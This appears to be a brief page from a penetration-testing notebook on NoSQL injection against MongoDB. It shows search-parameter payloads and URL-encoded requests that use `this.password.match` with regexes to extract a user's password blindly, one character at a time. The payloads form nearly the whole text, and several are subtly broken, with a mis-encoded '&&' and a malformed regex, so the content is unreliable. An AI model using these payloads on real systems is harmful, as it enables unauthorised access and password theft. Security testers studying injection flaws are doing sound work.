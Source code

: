 # DB queries

## DB queries

### Search for users 

Example: `GET /?search=admin`

**payload** 

`' && this.password.match(/.*)%00`

### Encoded request 

`GET /?search=admin'%20%26c%26%20this.password.match(/.*)%00`

which will return a True value \(200 code, valid request\).

* If the password is aaaaab, we can try the following regex :

`/^a.*$`

`GET /?search=admin'%20%26c%26%20this.password.match(/^a.$*)%00`

**Note**

Since the password doesn't maybe exist, we need to ensure that it exists using :

`&& this.password && this.password.match(`

### Resource

{% embed url="https://docs.mongodb.com/manual/tutorial/getting-started/" %}





